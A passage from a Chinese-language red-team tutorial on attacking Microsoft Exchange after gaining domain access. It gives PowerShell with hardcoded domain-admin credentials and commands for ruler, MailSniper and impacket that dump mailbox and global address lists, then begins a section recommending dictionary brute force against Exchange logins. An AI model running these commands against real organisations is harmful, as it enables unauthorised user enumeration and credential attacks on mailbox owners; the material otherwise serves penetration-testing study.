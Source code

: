     域内查询可以使用传统的内网渗透方式导出域用户。也可以使用域管直接远程操作 Exchange 导出邮箱地址。

    ```
    $User = "f8x\administrator"
    $Pass = ConvertTo-SecureString -AsPlainText DomainAdmin123! -Force
    $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
    $Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://Exchange01.f8x.com/PowerShell/ -Authentication Kerberos -Credential $Credential
    Import-PSSession $Session -AllowClobber
    Get-Mailbox|fl PrimarySmtpAddress
    Remove-PSSession $Session
    ```

- [sensepost/ruler](https://github.com/sensepost/ruler)
    ```
    ruler --insecure --url https://MAIL/autodiscover/autodiscover.xml --email test@test.com -u test -p 密码 --verbose --debug abk dump -o list.txt
    ```

- [dafthack/MailSniper](https://github.com/dafthack/MailSniper)
    ```
    Get-GlobalAddressList -ExchHostname MAIL -UserName CORP\test -Password 密码 -OutFile global-address-list.txt
    ```

- [impacket](https://github.com/SecureAuthCorp/impacket)
    ```
    python exchanger.py DOMAIN/test:密码@MAIL nspi list-tables

    python exchanger.py DOMAIN/test:密码@MAIL nspi dump-tables -guid xxxx
    ```

---

# 爆破

通常情况下,Exchange 系统是不对邮箱登录次数做限制,利用大字典来进行爆破,是最为常见的突破方法。

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/1.png)
